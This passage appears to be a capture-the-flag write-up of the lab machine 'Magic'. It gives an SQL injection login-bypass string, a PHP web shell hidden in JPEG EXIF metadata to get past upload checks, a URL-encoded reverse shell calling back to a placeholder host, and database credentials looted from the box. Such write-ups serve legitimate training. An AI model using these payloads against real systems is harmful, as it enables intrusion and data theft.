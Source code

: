 ### —- SQLi bypass —-
For the test to an SQLi point, I like to see the application’s behavior through Burp, I try to understand if it is vulnerable.
<img src="posts/magic/static/login_burp.png" width="60%" height="60%" align="center" class="center">
After some tests I found the easiest way to abuse the SQLi, modifying the post’s arguments as follow:
```
username=' -- -&password=random
```

Nice, now I am in front of an Upload form!
<img src="posts/magic/static/upload.png" width="35%" height="35%" align="center" class="center">

### —- Upload with magic —-
When I see an upload form I always rejoice, normally they give great emotions.

This specific upload form initially it seemed to me insuperable, every tries to upload a malformed file to get a “web shell” were blocked whit the following popup:
<img src="posts/magic/static/upload_error.png" width="45%" height="45%" align="center" class="center">

The security logic behind the form always checked:
* The final extension (allowed: png, jpg, jpeg)
* The integrity of the image

With these two checks I had to find a way to bypass both, te following steps reproduces the trick:
* Take an intact picture
* Rename it with the following command:
```bash
mv image.jpeg image.php.jpeg
```
* Add PHP code to his MetaData:
```bash
exiftool -documentname='<?php echo shell_exec($_GET["e"]." 2>&1"); infophp();?>' image.php.jpeg
```
* Upload the image to the website
* Make the following GET request to the image to retrieve a revershell:
```
http://10.10.10.185/images/uploads/image.php.jpeg?e=php+-r+%27$sock%3dfsockopen(%22MY-IP%22,MY-PORT)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%2
```
<img src="posts/magic/static/first_shell.png" width="45%" height="45%" align="center" class="center">

### —- Search for interesting info —-

On the machine, I’m able to see only another user, "theseus".
After some minutes to look around in the machine's filesystem I found the credentials that the application uses to interact with the database.
```
/var/www/Magic/db.php5
localhost:Magic:theseus:iamkingtheseus
```
Mysql client is not installed on the machine, so I used this PHP code to dump the entire database. (LINK)
What exactly I did:
* Write the linked code to the root web folder whit the credentials found
* Visited the written page from my browser to trigger the code
* Read the “dump.sql” file written by my PHP code with all the information
